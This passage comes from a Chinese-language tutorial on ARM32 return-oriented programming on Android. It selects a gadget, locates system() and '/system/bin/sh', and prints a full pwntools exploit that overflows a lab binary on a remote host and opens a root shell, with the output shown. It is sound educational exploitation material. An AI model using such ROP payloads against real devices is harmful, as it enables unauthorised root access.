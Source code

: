 在这些gadgets中，我们成功找到了一个gadget可以符合我们的要求：

```
#!bash
0x0000894a : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
```

接下来就是找system和`"/system/bin/sh"`的地址，分别为0x00008404和000096C0：

![image-20190213013409457](assets/hacker_rop_arm32/image-20190213013409457.png)

![image-20190213013416600](assets/hacker_rop_arm32/image-20190213013416600.png)

要注意的是，因为`system()`函数在plt区域，并没有被编译成thumb指令，而是普通的arm指令，因此并不需要将地址+1。最终level7.py如下：

```
#!python
#!/usr/bin/env python
from pwn import *

#p = process('./level7')
p = remote('30.10.20.253',10001)

p.recvuntil('\n')

#0x0000894a : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
gadget1 = 0x0000894a + 1

#"/system/bin/sh"
r0 = 0x000096C0

#.plt:00008404 ; int system(const char *command)
systemaddr = 0x00008404 

payload =  '\x00'*132 + p32(gadget1) + "\x00"*0xc + p32(r0) + "\x00"*0x4 + p32(systemaddr)

p.send(payload)

p.interactive()
```

执行结果如下：

```
#!bash
$ python level7.py 
[+] Opening connection to 30.10.20.253 on port 10001: Done

[*] Switching to interactive mode
$ /system/bin/id
uid=0(root) gid=0(root) context=u:r:shell:s0
```

# 0x03 Android上的ASLR
